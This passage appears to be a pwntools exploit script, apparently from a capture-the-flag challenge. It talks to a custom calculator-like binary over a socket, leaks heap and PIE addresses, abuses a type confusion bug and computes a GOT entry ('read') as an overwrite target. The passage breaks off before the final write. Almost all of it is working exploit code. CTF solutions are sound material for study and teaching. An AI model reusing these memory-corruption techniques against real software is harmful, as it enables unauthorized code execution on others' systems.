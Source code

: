 ```python
	s.send(p8(23))
	sleep(0.02)
	s.send(p8(119))
	sleep(0.02)
	s.send(p64(idx1))
	sleep(0.02)
	s.send(p64(idx2))
	sleep(0.02)
	s.send(p8(op))
	sleep(0.02)


while True:
	try:
		s = conn()
		na(5)
		nia(5)

		# heap leak
		st('NEXTLINE')
		mn(0x88888888)
		pi(3)
		calc(3,2,1)
		s.recv(1024)

		pi(3)
		heap = int(s.recv(1024)[1:-2],10) - 0x88888888
		log.info("HEAP : " + hex(heap))

		# type confusion
		target = heap  - 0x16b0
		log.info("Target - 1 : " + hex(target))

		mn(target % 0x100000000)
		mn(target >> 32)

		nao(0,2,2)

		naio(1,0,1)
		naio(1,1,2)

		pi(3)

		cc(0,1)
		pi(4)
		mn(0x88888888)
		pick(4,3)

		# pie leak
		calc(5,6,1)
		s.recv(1024)
		pi(5)
		pie = int(s.recv(1024)[1:-2],10) - 0x88888888 - 0x203ba8
		log.info("PIE : " + hex(pie))

		# type confusion2
		mn(0x88888888)

		target = pie + e.got['read'] - 0x10
		log.info("Target - 2 : " + hex(target))

		mn(target % 0x100000000)
		mn(target >> 32)
```